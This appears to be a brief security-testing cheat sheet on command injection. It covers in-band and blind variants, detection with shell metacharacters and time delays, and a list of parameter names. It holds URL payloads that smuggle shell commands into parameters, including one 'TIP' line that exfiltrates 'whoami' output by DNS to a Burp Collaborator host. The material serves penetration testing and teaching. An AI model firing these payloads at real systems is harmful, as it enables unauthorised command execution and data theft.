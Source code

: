 

# Types of Command Injection Vulnerabilities

## 1. In-band Command Injection
Here, the response of the executed command is received within the HTTP response.

### How to detect?
Use shell metacharacters: `&`, `;`, Newline (`0x0a` or `\n`), `&&`, `|`, `||`, `'`, `$`.

## 2. Blind Command Injection
Here, the output of the command is not returned within the HTTP response.

### How to detect?
- Trigger a time-delay using `ping` or `sleep` command.  
  e.g., `https://vulnerable-website/endpoint?parameter=x||ping -c 10 127.0.0.1||`  
  e.g., `https://vulnerable-website/endpoint?parameter=x & sleep 10 &`

- Output the response of the command to web root and access the file directly via a web browser.  
  e.g., `https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||`

- Open an Out-of-Band channel to a server you control like Burp Collaborator.  
  e.g., `https://vulnerable-website/endpoint?parameter=x||nslookup burp.collaborator.address||`

**TIP**: Exfiltrate the output of your command:  
`https://vulnerable-website/endpoint?parameter=||nslookup \`whoami\`.burp.collaborator.address||`

## Some Vulnerable Functions
- `exec`
- `command`
- `execute`
- `ping`
- `query`
- `jump`
- `code`
- `reg`
- `do`
- `func`
- `arg`
- `option`
- `load`
- `process`
- `step`
- `read`
- `function`
- `req`
- `feature`
- `exe`
- `payload`
- `run`
- `print`
